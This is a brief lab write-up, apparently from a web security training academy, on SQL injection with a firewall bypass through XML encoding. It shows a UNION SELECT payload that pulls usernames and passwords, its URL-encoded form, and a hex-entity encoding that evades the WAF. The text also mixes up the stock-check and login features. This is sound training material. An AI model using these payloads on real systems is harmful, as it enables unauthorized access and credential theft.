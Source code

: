 # Third Lab: SQL Injection

Lab - 03 : SQL injection with filter bypass via XML encoding

SQL Injection : Stock check feature

End Goal : Retrieve admin’s user credentials and logging in as one

Analysis : 

1. SQl Injection applicability check → True 
    
    ```sql
    https://0a030018044ab77883ac879e00020068.web-security-academy.net/login
    ```
    
    this page asks for username and password. 
    
    Default sql query, if username is demo and password is test. 
    
    ```sql
    SELECT * FROM users WHERE username='demo' AND password='test'
    ```
    
    Modified SQL query to get the other databases using the UNION keyword.
    
    ```sql
    SELECT * FROM users WHERE username='demo' UNION SELECT username, password FROM users-- AND password='test'
    ```
    
    So my extra addition as an SQL injection would be 
    
    ```
    'UNION+SELECT+username,+password+FROM+users--
    ```
    
    This injection is being caught by WAF(Web Application Firewall). To by pass this, we have to do xml coding on the data.
    
    ```
    &#x53;ELECT * FROM users
    ```
    
    This is can be used to view the users datatable